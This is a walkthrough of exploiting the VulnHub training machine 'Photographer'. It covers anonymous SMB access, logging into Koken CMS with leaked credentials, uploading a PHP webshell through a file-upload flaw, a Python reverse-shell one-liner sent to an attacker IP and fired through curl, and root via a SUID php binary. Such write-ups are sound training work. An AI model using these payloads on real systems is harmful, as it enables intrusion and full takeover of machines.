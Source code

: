 ```yaml
---
layout: post
title: Photographer
description: Photographer is a linux machine showcasing the exploitation of an authenticated file upload vulnerability.
categories: [writeups]
tags: [vulnhub, Arbitrary File Upload, SUID]
image:
  path: https://www.vulnhub.com/media/img/entry/watermarked/c185a33b9f18350eb96b97074851910a7698bab0.png
---
```


## **Summary**

Credentials found in a publically accessible share were used to access `Koken CMS`, teh latter was vulnerable to a file upload vulnerability which allowed us to
upload a malicious `php` file and gain access to the machine. After that, a binary with the SUID bit set was leveraged to escalate our privileges.

> Machine can be found in [Vulnhub](https://www.vulnhub.com/entry/photographer-1,519/)
{: .prompt-info }

## **Enumeration**

### **nmap**

I started with an nmap scan which revealed four open ports.

```
$ nmap 192.168.56.104 -sV -sC
```

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

![](/assets/photographer/00-nmap.png)

### **SMB Enumeration**

I used `smbclient` to enumerate the `SMB server` running on port `445`. I started off by listing it's shares.

```
$ smbclient -L 192.168.56.104 -N
```

![](/assets/photographer/01-listshares.png)

I found a share named `sambashare`, which I was able to access anonymously.

```
$ smbclient //192.168.56.104/sambashare -N
smb: \> ls
```

![](/assets/photographer/02-access-sambashare.png)

There was two files `mailsent.txt` and `wordpress.bkp.zip`.  
I downloaded them both.

```
smb: \> get mailsent.txt
smb: \> get wordpress.bkp.zip
```

![](/assets/photographer/03-get-from-share.png)

`mailsent.txt` contained an email with its headers.

```
$ cat mailsent.txt
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

![](/assets/photographer/04-mailsent-txt.png)

It didn't seem important at first, but there was a use for it later on.

The other file `wordpress.bkp.zip` did not contain anything important.

### **Web Enumeration**

There was two `apache` web servers running on port `80` and port `8000`.

#### **Port 80**

I browsed to the first one, but I did not find anything useful.  
I also did not find any hidden resources using `gobuster`.

![](/assets/photographer/05-apache-80.png)

So, I moved to the next one.

#### **Port 8000**

This is The home page of the web server running on port 8000.

![](/assets/photographer/06-apache-8000.png)

I used `gobuster` to find any hidden resources.

```
$ gobuster dir -u http://192.168.56.104:8000 \
--status-codes-blacklist 404,403 \
--exclude-length 0 \
-w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
```

> --exclude-length 0: exclude the following content length (completely ignores the status)

![](/assets/photographer/07-gobuster-8000.png)

I was able to find an admin portal on `/admin`.

![](/assets/photographer/08-admin-login-page.png)

The credentials I used to login were found on `mailsent.txt` I retrieved from the `sambashare` share.

```
Email address: daisa@photographer.com
Password: babygirl
```

![](/assets/photographer/09-admin.png)

This is `Koken Content Management System (CMS)` which is vulnerable to an `Arbitrary File Upload` in case of an authenticated user.

To exploit this vulnerability I used an exploit found at [exploit-db](https://www.exploit-db.com/exploits/48706).

## **Foothold**

I created a php script and saved it as `image.php.jpg`.

```
$ echo '<?php system($_GET["cmd"]);?>' > image.php.jpg
```

I went back to the admin page, clicked on `import content` at the bottom right of the page, uploaded `image.php.jpg`, and sent the requst to burpsuite.

![](/assets/photographer/10-intercept-upload.png)

I changed the name to `image.php`, and forwarded the request.

![](/assets/photographer/11-change-name.png)

After the upload is done, I went back the koken CMS Library, selected The newly uploaded file, right clicked on `Download File` and copied the link.

![](/assets/photographer/12-access-webshell.png)

To test it I used `curl` and sent a request to the link I copied, and I got a response with the output of the command I provided as a query.

```
$ curl http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=id
```

![](/assets/photographer/13-cmd-exec-poc.png)

After getting a working `webshell`, I tried to get a reverse shell.

### **Reverse shell**

To get a reverse shell I used this python payload found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

I started a listener using `netcat`.

```
$ nc -lnvp 1337
```

![](/assets/photographer/14-listener.png)

I executed the payload with the webshell.

```
$ curl 'http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=python3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22192%2E168%2E56%2E105%22%2C1337%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27'
```

![](/assets/photographer/15-payload.png)

And I got a connection back on the `nc` listener.

![](/assets/photographer/16-revshell.png)

To get a fully functioning shell I stabilized it using the folloing commands.

```
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
$ ^Z (CTRL+Z)
kali$ stty raw -echo; fg
```

![](/assets/photographer/16-shell-stabilize.png)

After stabilizing the shell, I got the user flag.

```
$ cd /home/daisa
$ cat user.txt
```

![](/assets/photographer/17-user-flag.png)

## **PrivEsc**

I listed all files with the `SUID` bit set, to see if there is a binary a can use to escalate my priviliges.

```
$ find / -type f -perm -u=s 2>/dev/null
```

![](/assets/photographer/18-suid-bins.png)

The intersting binary I found was `/usr/bin/php7.2`.

`php` can be used to excalate priviles according to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid).

I used the following command to get a shell as root.

```
$ php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```

![](/assets/photographer/20-root-shell.png)

After that I got the root flag.

```
$ cd /root
$ cat proof.txt
```

![](/assets/photographer/21-root-flag.png)
